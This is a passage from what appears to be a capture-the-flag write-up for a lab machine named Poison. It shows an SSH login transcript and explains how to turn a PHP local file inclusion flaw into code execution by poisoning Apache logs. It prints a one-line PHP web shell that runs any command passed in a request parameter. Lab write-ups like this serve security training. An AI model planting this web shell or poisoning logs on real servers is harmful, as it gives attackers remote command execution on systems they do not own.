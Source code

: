 ```none
$ ssh charix@10.10.10.84
Password for charix@Poison:
Last login: Mon Mar 19 16:38:00 2018 from 10.10.14.4
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

Edit /etc/motd to change this login announcement.
Want to use sed(1) to edit a file in place?  Well, to replace every 'e' with
an 'o', in a file named 'foo', you can do:

        sed -i.bak s/e/o/g foo

And you'll get a backup of the original in a file named 'foo.bak', but if you
want no backup:

        sed -i '' s/e/o/g foo
charix@Poison:~ % id
uid=1001(charix) gid=1001(charix) groups=1001(charix)
charix@Poison:~ %
```

## User Own (Log Poisoning PHP LFI Vulnerability)

Whenever you find an LFI vulnerability, chances are you can poison the Apache httpd logs with PHP code and execute it.
**Keep in mind that with this kind of exploit, you only get one chance for your payload, since all it takes is one error for things to permanently go wrong (until a system administrator goes in and cleans up the logs)!**

I used the folloing code for poisoning the Apache logs with PHP code:

```php
<?php if(isset($_REQUEST['cmd'])){ echo '<pre>'; $cmd = ($_REQUEST['cmd']); system($cmd); echo '</pre>'; die; }?>
```
